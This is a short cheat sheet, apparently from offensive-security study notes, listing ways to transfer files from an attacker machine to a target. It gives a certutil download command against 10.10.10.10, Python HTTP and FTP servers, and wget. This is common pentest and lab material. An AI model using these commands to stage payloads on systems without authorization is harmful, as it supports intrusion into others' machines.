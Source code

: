 # I. File Transfers Review

- **Certutil**
    - **e.g `certutil.exe -urlcache -f http://10.10.10.10/file/file.txt file.txt`**
- **HTTP**
    - **`python -m SimpleHTTPServer 80`**
- **Browser**
    - Navigate directly to file.
- **FTP**
    - **`python -m pyftpdlib 21 (Attacker Machine)`**
    - **`ftp 10.10.10.10 (Target Machine)`**
- **Linux**
    - **`wget`**